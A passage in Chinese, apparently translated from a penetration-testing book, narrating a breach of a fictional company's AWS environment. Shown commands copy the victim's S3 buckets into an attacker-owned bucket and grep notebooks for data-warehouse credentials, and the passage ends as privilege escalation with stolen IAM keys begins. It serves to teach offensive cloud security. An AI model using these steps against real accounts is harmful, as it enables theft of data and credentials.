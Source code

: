 我们可以在自己的机器上配置几个 TB 的存储空间，接着完全窃取这三个桶。相反，我们只是指示 AWS 将桶复制到我们自己的账户中，但首先需要稍作调整以加快速度：

```
root@Point1:~/# **aws configure set default.s3.max_concurrent_requests 1000**
root@Point1:~/# **aws configure set default.s3.max_queue_size 100000**
root@Point1:~/# **aws s3 sync s3://gretsch-hadoop/ s3://my-gretsch-hadoop**
```

我们拥有来自三个 Hadoop 桶的所有数据。不过，不要太激动；这些数据几乎不可能在没有大量探索、业务知识和当然的计算能力下处理。老实说，我们完全超出了自己的能力范围。

Gretsch Politico 每天都由其数据专家小队进行这种处理。我们难道不能利用他们的工作，直接窃取最终结果，而不是从头开始重新发明轮子吗？

## 偷窃处理过的数据

在 Spark 上进行数据处理和数据转化通常只是数据生命周期的第一步。一旦数据与其他输入丰富、交叉引用、格式化并扩展后，它会被存储在第二介质上。在那里，分析师（通常通过某些类似 SQL 的引擎）可以进行探索，最终数据会被输入到训练算法和预测模型中（这些算法和模型可能运行在 Spark 上，也可能不运行）。

问题是，GP 将其丰富和处理过的数据存储在哪里？最快的方式是搜索 Jupyter 笔记本，查找有关分析工具的提示、SQL 类查询、图表和仪表盘等内容（参见列表 12-9）。

```
root@Point1:~notebooks/# **egrep -R -5 "sql|warehouse|snowflake|redshift|bigquery" ***

redshift_endpoint = "sandbox.cdc3ssq81c3x.eu-west-1.redshift.amazonaws.com"

engine_string = "postgresql+psycopg2://%s:%s@%s:5439/datalake"\
% ("analytics-ro", "test", redshift_endpoint)

engine = create_engine(engine_string)

sql = """
select insertion_id, ctr, cpm, ads_ratio, segmentID,...;
"""
`--snip--`
```

列表 12-9：Jupyter 笔记本中使用的 SQL 查询

也许我们发现了一些值得调查的东西。Redshift 是一个经过强化的 PostgreSQL 管理数据库，以至于它已经不再适合称其为数据库。它通常被称为 *数据湖*。对于查询一个 1,000 行的小表几乎没什么用，但给它几 TB 的数据来摄取，它就能以闪电般的速度响应！它的容量可以随 AWS 的空闲服务器扩展（当然，客户也得有钱花）。

Redshift 以其显著的速度、可扩展性、并行上传能力以及与 AWS 生态系统的集成，成为该领域最有效的分析数据库之一——它可能是我们救赎的关键！

不幸的是，我们获取的凭证属于一个包含无关数据的沙箱数据库。而且，我们的 AWS 访问密钥都不能直接查询 Redshift API：

```
root@Point1:~/# **aws redshift describe-clusters \**
**--profile=data1 \**
**--region eu-west-1**

An error occurred (AccessDenied) when calling the DescribeClusters...
```

看来是时候进行一些权限提升了。

### 权限提升

通过检查我们获得的十二个 IAM 访问密钥，我们意识到它们都属于同一个 IAM 组，因此共享相同的基本权限——也就是，读取/写入一些桶，并附带一些轻量的只读 IAM 权限：
